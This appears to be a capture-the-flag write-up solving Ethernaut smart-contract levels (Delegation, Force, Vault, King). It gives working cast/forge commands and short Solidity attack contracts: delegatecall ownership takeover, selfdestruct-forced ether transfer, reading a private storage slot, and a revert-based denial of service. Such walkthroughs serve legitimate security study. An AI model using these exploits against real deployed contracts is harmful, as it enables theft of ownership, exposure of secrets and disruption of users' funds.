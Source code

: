 To solve this level:
- Get ABI-encoding of "pwn()": `cast calldata "pwn()”` = 0xdd365b8b 
- `cast send <challenge_addr> 0xdd365b8b --gas-limit 300000`
    - calls `pwn()` on `Delegation` contract which does not exist, so fallback function of `Delegation` gets called. 
    - Then, `delegatecall` is executed on `Delegate` contract with`pwn()` function (encoded in bytes) as the `msg.data=0xdd365b8b`. Thus, we execute the `pwn()` function but on the `Delegation`'s storage which sets its `owner` variable to our `player` address.

****

# Force

This level simply illustrates that you can force sending ether to a contract that does not have any payable functions, by using `selfdestruct` of another contract.
- `forge create src/Force.sol:ForceSend --value 1 --constructor-args <challenge_addr>`
    - note we pre-funded the contract with 1 wei, which was sent to target contract, before self-destructing in the same tx

```solidity
pragma solidity ^0.8.0;
contract ForceSend {
    constructor (address payable _target) payable {
        require(msg.value>0);
        selfdestruct(_target);
    }
}
```

****
# Vault

We need to get raw value of contract's second storage slot, since the storage slots are laid out in the order that the variables are defined. 
- Hence, `locked` corresponds to the first slot, and `bytes32` corresponds to the second. 
    - Details on the subtleties of the storage layout (such as packing multiple variables of size < 32 bytes into one slot) can be found [here](https://docs.soliditylang.org/en/v0.8.11/internals/layout_in_storage.html).
- `cast storage <challenge_addr> 1`
    - equivalent to `ethers.provider.getStorageAt(addr,1)` in Javascript's `ethers` library.

****

# King

To break this Ponzi game, we make our attack contract unable to receive tokens.
- use `revert()` in the `receive()` payable function, which means no one can reclaim the kingship from us
- `forge create src/AttackKing.sol:AttackKing --value 0.001ether --constructor-args <challenge_addr>`
